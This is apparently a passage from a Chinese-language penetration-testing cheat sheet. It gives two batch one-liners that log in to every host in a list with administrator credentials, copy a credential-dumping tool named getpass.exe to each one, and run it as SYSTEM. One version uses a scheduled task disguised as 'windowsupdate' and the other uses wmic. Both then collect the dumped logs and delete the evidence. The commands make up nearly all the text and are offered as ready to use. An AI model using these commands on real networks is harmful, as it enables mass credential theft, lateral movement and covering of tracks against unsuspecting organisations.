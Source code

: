   #### Schtasks
	把IP列表放入ip.txt文件中，通过一个账户密码批量net use与列表里的IP建立连接，如果建立连接没出错的话，复制getpass到目录temp目录，使用账户密码远程创建计划任务名字为windowsupdate，指定每日00：00以system权限执行getpass文件，创建完计划任务后，/tn是立刻执行此计划任务，执行完后删除此计划任务，ping -n 10>nul是程序停留，相当于延时10秒，之后复制文件到本地，接着删除getpass文件，删除创建的连接。
	>for /f %i in (ip.txt) do net use \\%i\admin$ /user:"administrator" "password" & if %errorlevel% equ 0 ( copy getpass.exe \\%i\admin$\temp\ /Y ) & schtasks /create /s "%i" /u "administrator" /p "password" /RL HIGHEST /F /tn "windowsupdate" /tr "c:\windows\temp\getpass.exe" /sc DAILY /mo 1 /ST 00:00 /RU SYSTEM & schtasks /run /tn windowsupdate /s "%i" /U "administrator" /P "password" & schtasks /delete /F /tn windowsupdate /s "%i" /U " administrator" /P "password" & @ping 127.0.0.1 -n 10 >nul & move \\%i\admin$\temp\dumps.logs C:\Users\Public\%i.logs & del \\%i\admin$\debug\getpass.exe /F & net use \\%i\admin$ /del
  #### Wmic
	>for /f %i in (ip.txt) do net use \\%i\admin$ /user:"administrator" "password" & if %errorlevel% equ 0 ( copy getpass.exe \\%i\admin$\temp\ /Y ) & wmic /NODE:"%i" /user:"administrator" /password:"password" PROCESS call create "c:\windows\temp\getpass.exe" & @ping 127.0.0.1 -n 10 >nul & move \\%i\admin$\temp\dumps.logs C:\Users\Public\%i.logs & del \\%i\admin$\temp\getpass.exe /F & net use \\%i\admin$ /del